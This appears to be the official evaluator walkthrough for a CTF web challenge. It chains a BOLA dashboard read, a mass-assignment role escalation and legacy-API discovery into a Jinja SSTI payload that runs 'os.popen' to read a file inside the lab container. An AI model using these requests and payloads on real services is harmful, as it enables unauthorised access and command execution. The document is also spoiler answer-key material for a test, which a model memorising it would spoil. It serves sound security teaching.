

<p align="center">
  <strong>Created by Ziad Osama El-Boshy</strong><br />
  <sub>Challenge author &amp; creator</sub>
</p>

# Official solution

**firmdrama · Evaluator edition - contains spoilers · Reviewed 10 September 2026**

> **Spoiler warning:** This document contains the complete intended solve,
> including the legacy SSTI payload. Do not distribute it to players. Runtime
> flags and approval IDs are intentionally represented as placeholders.

## Completion path at a glance



## 0. Prepare a clean state

Start the stack and reset before each solve attempt:

```powershell
docker compose up -d --build
python reset.py
```

Set the base URL in the examples below to the published challenge endpoint.
The local default is `http://127.0.0.1:8080`.

## 1. Authenticate as Mike

```http
POST /api/v1/auth/login
Content-Type: application/json

{"username":"thisismike","password":"mike@123"}
```

Save the response `token` and send it as `Authorization: Bearer <token>` in
subsequent API requests. Mike begins with role `1`.

## 2. Derive James's dashboard relation

Request the calendar endpoint:

```http
GET /api/v1/bookings/calendar
Authorization: Bearer <token>
```

The relevant occupied-room record identifies James and includes dashboard
reference `1042`. Mike's own seeded booking also carries his normal dashboard
reference `1001`; use the partner-owned record for this stage. The normal
calendar UI displays the room, matter, owner, timing, confidentiality, and
status, but intentionally has no link to the partner workspace. Inspect the
JSON in a REST client or browser network tools.

Use the discovered value in:

```text
GET /api/v1/dashboards/{dashboard_id}
```

The response identifies James as owner while the authenticated identity stays
Mike. This proves the intended **API1:2023 BOLA** stage.

## 3. Traverse the private conversation context

Follow the response relationship, then inspect message summaries:

```text
GET /api/v1/dashboards/{dashboard_id}/conversations
GET /api/v1/dashboards/{dashboard_id}/conversations/{conversation_id}
```

The conversation response offers participants, subject, message count, IDs,
and previews. Olivia's final preview ends at the literal `duck{` prefix; it
does not disclose the rest of the flag, the approval ID, the complete body, or
sender-role metadata. Request each individual detail route:

```text
GET /api/v1/dashboards/{dashboard_id}/conversations/{conversation_id}/messages/{message_id}
```

Olivia's detailed messages report `metadata.sender_role_id: 499`. Only her
final message contains both the per-reset delegation approval issued to James
and the intermediate flag. Record the approval ID; do not assume it survives a
reset.

## 4. Escalate Mike through the unsafe profile binding

Target Mike's own profile object and include the protected property plus the
approval obtained in the previous stage:

```http
PATCH /api/v1/users/1/profile
Authorization: Bearer <token>
Content-Type: application/json

{"role_id":499,"delegation_approval_id":"<approval from Olivia's message>"}
```

A `200` response confirms role `499`. The normal browser profile save already
reveals both `role_id` and a `"NULL"` approval placeholder in its request
body. The approval only authorizes target role `499`; another target role is
rejected even if the approval is real. This is the intended
**API3:2023 BOPLA / mass-assignment** stage because the approval was issued to
James for a role-`3` to role-`499` transition, but the service does not verify
that James or role `3` redeemed it.

## 5. Enumerate the Facilities API versions

With the same token, compare the version behavior:

```text
GET /api/v3/dashboard  -> 200
GET /api/v2/dashboard  -> 404
GET /api/v1/dashboard  -> 200
```

v3 is the current, safe Facilities API. The unavailable v2 response and
reachable v1 surface demonstrate the intended **API9:2023 Improper Inventory
Management** stage. The v1 response provides the legacy preview relation.

## 6. Trigger the isolated legacy SSTI

Submit a controlled expression to the legacy preview endpoint:

```http
POST /api/v1/tickets/1001/preview
Authorization: Bearer <token>
Content-Type: application/json

{"body":"{{ cycler.__init__.__globals__.os.popen('cat /home/olivia/DoNotOpenThisFolder/olivia.txt').read() }}"}
```

The v1 handler evaluates supplied Jinja source and returns the simulated file
content, including the independent final runtime flag. This is the only
intended server-side execution behavior and runs as the non-root challenge
account inside the disposable container.

## Success criteria

| Checkpoint | Expected proof |
|---|---|
| Authentication | Mike session is valid, initially role `1` |
| BOLA | James dashboard is returned without changing Mike's identity |
| Conversation | Individual Olivia detail exposes role metadata and a fresh approval |
| BOPLA | Mike's own profile returns role `499` |
| Inventory | v3 `200`, v2 `404`, v1 `200` after escalation |
| Final result | Preview response contains a distinct final `duck{...}` value |

## Reset and retest

The approval is consumed when role `499` is selected. Reset before a new
solve:

```powershell
python reset.py
```

For a non-interactive confirmation, run:

```powershell
python solver/solve_api_only.py http://127.0.0.1:8080
```

The solver prints only boolean confirmation fields and never prints flags or
the runtime delegation approval.

## UI boundary reminder

The UI deliberately supports only ordinary account actions. It never displays
the dashboard relation, a victim-workspace link, private message body, protected
role field, legacy API link, or preview executor. This is a design control: the
solution requires request inspection and API reasoning rather than a clickable
CTF shortcut.

---

[Documentation index](README.md) · [Operations](operations.mdx) · [Validation and acceptance](validation-report.mdx)
